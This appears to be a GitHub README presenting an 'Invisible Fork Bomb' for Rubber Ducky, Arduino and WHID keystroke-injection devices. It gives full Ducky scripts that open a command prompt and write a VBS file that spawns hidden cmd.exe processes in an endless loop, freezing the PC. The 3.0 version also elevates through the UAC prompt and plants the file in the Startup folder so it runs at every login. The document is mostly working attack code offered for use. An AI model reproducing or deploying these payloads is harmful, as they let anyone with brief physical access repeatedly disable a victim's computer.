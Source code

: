 # Invisible Fork Bomb for Rubber Ducky, Arduino and WHID
**V. 2.0:** The script creates and starts a vbs that executes exponentially cmd.exe without visible windows (Fork bomb -> Freezes the PC).

**V. 3.0:** The same, but it sets the vbs file into the startup.

**Author:** BlueArduino20

<h2>Code for Ducky [2.0]</h2>

<pre><code>DELAY 1000
GUI r
DELAY 500
STRING cmd
ENTER
DELAY 500
STRING copy con forkb.vbs
ENTER
STRING do
ENTER
STRING CreateObject("Wscript.Shell").Run "cmd", 0, False
ENTER
STRING loop
CTRL z
ENTER
DELAY 50
STRING start forkb.vbs && exit
ENTER
</pre></code>

<h2>Code for Ducky [3.0]</h2>
[Warning] That version sets the vbs file into the startup.

<pre><code>DELAY 1000
CTRL ESC
DELAY 500
STRING cmd
CTRL SHIFT ENTER
DELAY 400
ALT y
DELAY 500
STRING copy con "%userprofile%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\FB.vbs"
ENTER
STRING do
ENTER
STRING CreateObject("Wscript.Shell").Run "cmd", 0, False
ENTER
STRING loop
CTRL z
ENTER
DELAY 50
STRING start FB.vbs && exit
ENTER
</pre></code>

<h2>Code for Arduino [2.0]</h2>

<a href="https://github.com/BlueArduino20/Invisible_fork_bomb/blob/master/Invisible_fork_bomb_2.0.ino">Invisible_fork_bomb_2.0.ino<a>

<h2>Code for Arduino [3.0]</h2>
[Warning] That version sets the vbs file into the startup.

<a href="https://github.com/BlueArduino20/Invisible_fork_bomb/blob/master/Invisible_fork_bomb_3.0.ino">Invisible_fork_bomb_3.0.ino<a>

